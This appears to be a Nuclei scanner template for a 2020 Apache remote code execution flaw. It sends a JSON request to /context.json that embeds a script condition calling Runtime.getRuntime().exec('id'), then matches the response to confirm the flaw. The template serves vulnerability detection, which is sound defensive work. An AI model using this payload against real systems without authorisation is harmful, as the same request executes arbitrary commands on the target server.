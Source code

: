 - severity - critical
- tags - cve,cve2020,apache,rce

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/context.json
  - {
    "filters": [
    {
    "id": "nuclei",
    "filters": [
    {
    "condition": {
    "parameterValues": {
    "nuclei": "script::Runtime.getRuntime().exec('id')"
    },
    "type": "profilePropertyCondition"
    }
    }
    ]
    }
    ],
    "sessionId": "nuclei"
    }

### Matchers

**Type - regex**

- part - body
- regex
  1. (profile|session)(Id|Properties|Segments)
  2. [a-f0-9]{8}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{12}
- condition - and

**Type - word**

- part - header
- words
  1. application/json
  2. context-profile-id
- condition - and

**Type - status**

- status
  1. 200

---

